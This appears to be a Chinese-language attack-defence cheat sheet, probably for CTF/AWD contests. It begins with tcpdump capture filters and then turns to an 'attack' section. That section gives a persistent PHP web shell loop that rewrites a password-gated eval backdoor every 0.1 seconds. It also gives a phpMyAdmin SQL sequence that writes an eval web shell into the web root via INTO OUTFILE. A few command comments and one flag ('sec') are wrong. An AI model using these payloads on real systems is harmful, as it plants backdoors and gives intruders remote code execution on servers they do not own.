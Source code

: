 

###### 端口过滤

```basic
抓取所有经过ens33，目的或源端口22的网络数据：
tcpdump -i ens33 port 22
指定源端口：tcpdump -i ens33 sec port 22
指定目的端口: tcpdump -i ens33 dst port 22
```

###### 网络过滤

```basic
tcpdump -i ens33 net 192.168.1.1
tcpdump -i ens33 src net 192.168.1.1 #源端口
tcpdump -i ens33 dst net 192.168.1.1 #目的端口
```

###### 协议过滤

```basic
tcpdump -i ens33 arp
tcpdump -i ens33 ip
tcpdump -i ens33 tcp
tcpdump -i ens33 udp
tcpdump -i ens33 icmp
```

###### 技巧

```basic
tcpdump -w 1.pcap #抓所有包保存到1.pcap中然后使用wireshark分析 
```







## 攻击

##### 添加不死马

```bash
system('while true;do echo \'<?php if(md5($_GET[pass])==\"3a50065e1709acc47ba0c9238294364f\"){@eval($_GET[a]);} ?>\' >fuck.php;sleep 0.1;done;');

#md5值（Sn3rtf4ck）
```

#### phpmyadmin

##### 常规导入shell的操作

```mysql
   创建数据表导出shell
   CREATE TABLE `mysql`.`shadow9` (`content` TEXT NOT NULL );
   INSERT INTO `mysql`.`shadow9` (`content` ) VALUES (‘<?php @eval($_GET['cmd']);?>’);
   SELECT `content` FROM `shadow9` INTO OUTFILE ‘/etc/html/www/./1.php’;
   DROP TABLE IF EXISTS `shadow9`;
```
